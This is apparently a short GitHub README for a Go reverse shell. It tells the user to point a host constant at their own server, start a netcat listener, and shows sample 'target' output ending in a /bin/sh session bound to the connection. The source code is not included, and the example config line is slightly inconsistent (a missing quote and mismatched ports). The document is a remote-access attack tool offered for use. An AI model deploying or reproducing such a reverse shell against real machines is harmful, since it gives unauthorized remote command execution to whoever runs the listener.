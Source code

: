 # reverse-shell-go

### Simple reverse shell written in go

To use: 
- Set the host address near the top to your server. `const host = "127.0.0.1:1234`
- Start listening on the server using `netcat -l -p 8080`


Example output on target
```
github.com/orf1/reverse-shell-go
Attempting to establish tcp connection with server
dial tcp 127.0.0.1:8080: connect: connection refused
Attempting to establish tcp connection with server
Detecting operating system
Detected mac or linux, using /bin/sh
binding standard interfaces to connection
shell opened
```
<img width="572" alt="Screen Shot 2022-08-08 at 2 47 48 PM" src="https://user-images.githubusercontent.com/39539212/183520624-33592bda-2509-435b-8eb3-a5b04f590eb7.png">
